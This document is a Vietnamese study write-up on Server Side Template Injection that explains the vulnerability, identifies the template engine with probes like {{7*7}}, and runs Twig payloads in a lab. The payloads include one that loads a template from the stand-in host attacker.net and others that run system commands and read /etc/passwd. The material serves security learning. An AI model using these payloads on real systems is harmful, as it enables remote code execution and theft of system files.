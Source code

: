 Người thực hiện: Lê Trần Văn Chương.

Ngày: 16/05/2022.

Mục lục:
- [Server Side Template Injection (SSTI)](#server-side-template-injection-ssti)
  - [Plaintext context:](#plaintext-context)
  - [Code context](#code-context)
- [Lab](#lab)


## Server Side Template Injection (SSTI)
- SSTI là lỗ hổng cho phép hacker tiêm vào các ký tự đặc biệt dùng để đánh dấu một biến và điều khiển đầu ra theo ý muốn của mình.
- Khi một lỗ hổng SSTI bị phát hiện, hacker có thể thông qua lỗ hổng này để đọc được các biến môi trường quan trọng hoặc nâng lỗ hổng lên thành các lỗ hổng khác như XSS hay RCE.
- Ký tự mà hacker dùng để tiêm vào input sẽ tùy thuộc vào template cũng như ngôn ngữ backend mà web server đang sử dụng. Các ứng dụng web thường sử dụng các hệ thống mẫu như Twig và FreeMarker để nhúng nội dung động vào các trang web và email.
- Lỗ hổng bảo mật này có thể xuất hiện trong hai ngữ cảnh riêng biệt, mỗi ngữ cảnh yêu cầu phương pháp phát hiện riêng:
### Plaintext context:
- Hầu hết các ngôn ngữ mẫu hỗ trợ ngữ cảnh 'text' dạng tự do nơi bạn có thể nhập trực tiếp HTML. Nó thường sẽ xuất hiện theo một trong những cách sau:
```HTML
smarty=Hello {user.name}
Hello user1 
```

```HTML
freemarker=Hello ${username}
Hello newuser  
```

```HTML
any=<b>Hello</b>
<b>Hello<b> 
```

- Đều này dẫn đến tấn công `XSS`.
    
### Code context
- Đầu vào của người dùng cũng có thể được đặt trong một đoạn code mẫu, thường là một tên biến:
```php
personal_greeting=username
Hello user01 
```

- Biến thể này thậm chí còn dễ bị bỏ sót hơn trong quá trình đánh giá, vì nó không dẫn đến `XSS` rõ ràng và hầu như không thể phân biệt được bằng cách tra cứu bản đồ băm đơn giản. Thay đổi giá trị `username` thường sẽ dẫn đến kết quả trống hoặc ứng dụng bị lỗi.

## Lab
- Sau khi phát hiện tiêm mẫu, bước tiếp theo là xác định template engine đang được sử dụng. Bước này đôi khi cũng đơn giản như việc gửi cú pháp không hợp lệ, vì các công cụ mẫu có thể tự nhận dạng trong các thông báo lỗi kết quả. Tôi sẽ làm theo sơ đồ ở dưới.
![Hình 1.](~/../img/1.png)

- Mũi tên màu xanh lá cây và màu đỏ lần lượt thể hiện các câu trả lời "thành công" và "thất bại". Trong một số trường hợp, một trọng tải duy nhất có thể có nhiều phản hồi thành công khác nhau - ví dụ: thăm dò `{{7 * '7'}}` sẽ cho kết quả là 49 ở Twig, `'7777777'` ở Jinja2 và cũng không nếu không có ngôn ngữ mẫu nào được sử dụng.
![Hình 2.](~/../img/2.png)

- Có thể thấy hình trên thì trường hợp `{{7*7}}` kết quả vẫn là `Hello 49` thì ta có thể suy ra có 2 template engine có thể đc sử dụng trong này là `Jinja2` của Python và `Twig` của PHP. Theo sơ đồ thì nó sẽ đi theo nhánh phía dưới. Tiếp tục thử `{{7*'7'}}`, nếu kết quả là `Hello 49` thì là template engine `Twig`, còn `Hello '7777777'` thì là `Jinja2`.
![Hình 3.](~/../img/3.png)

- Có thể thấy kết quả ở trên thì ta sử dụng template engine là `Twig`.
- Tôi lên trang `Hacktricks` để có thể tìm các exec code để có thể test. Phía dưới là các exec code để test:
```php
#Exec code
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("whoami")}}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
```

- Tôi sử dụng đoạn `{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}` để xem thử id của user nhưng không thành công. Nhưng nếu tôi đổi `id` thành `whoami` thì có kết quả.
- Tôi tiếp tục sử dụng đoạn `{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("whoami")}}` để test và kết quả ở phía dưới.
![Hình 4.](~/../img/4.png)





